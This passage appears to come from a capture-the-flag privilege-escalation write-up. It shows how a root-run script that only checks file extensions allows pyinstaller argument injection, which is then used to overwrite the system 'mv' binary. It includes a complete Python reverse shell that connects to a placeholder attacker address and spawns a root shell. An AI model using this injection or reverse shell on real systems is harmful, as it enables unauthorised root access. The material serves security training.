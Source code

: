 And the <mark style="color:blue;">**ext**</mark> variable, filters the file extension that we send through the <mark style="color:blue;">name</mark> variable. Furthermore, to use <mark style="color:purple;">**build**</mark>, we can only pass files with the **.spec** extension, and in <mark style="color:purple;">**make**</mark>, only files with the **.py** extension.

If we analyze better the condition that the <mark style="color:blue;">name</mark> variable is used, we can see the flaw in the code, the variable does not do any treatment in the input itself, it only checks if the extension is **.spec** or **.py**, but the string that is passed before of the file extension is not handled or checked.\
\
With that, we can test some parameter injections in the code, as there is the **pyinstaller** executed before the <mark style="color:blue;">name</mark> variable, we can try to add parameters in the **pyinstaller** and visualize the output.

<figure><img src="../.gitbook/assets/ray-so-export(12).png" alt=""><figcaption></figcaption></figure>

Success, I used the <mark style="color:green;">`-v`</mark> parameter to see if **pyinstaller** would return the package version in the script output, and we can see that yes, this opens a loophole for us to manipulate the python script that is built in the script.

Reading the **pyinstaller** manual, we will find a parameter that allows us to redirect the built python binary to any system directory, and since the script runs as root, we can overwrite any system binary Then, we'll use the <mark style="color:green;">`--dispath`</mark> parameter to send the **Python** binary to any directory on the system.

Note that after running the script with the <mark style="color:green;">`-v`</mark> parameter, the **mv** command, which runs after **pyinstaller**, returned an error because it did not find the directories that **pyinstaller** should generate, so we can replace the **mv** command itself with our **Python** binary.

Our **Python** code will contain a basic **reverse shell**, which will spawn a root shell on our host.

```python
import socket,subprocess,os;
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("YOURIP",PORT));
os.dup2(s.fileno(),0);
os.dup2(s.fileno(),1);
os.dup2(s.fileno(),2);
import pty; pty.spawn("sh")
```

We can save our **.py** in **/home/tkeller.**

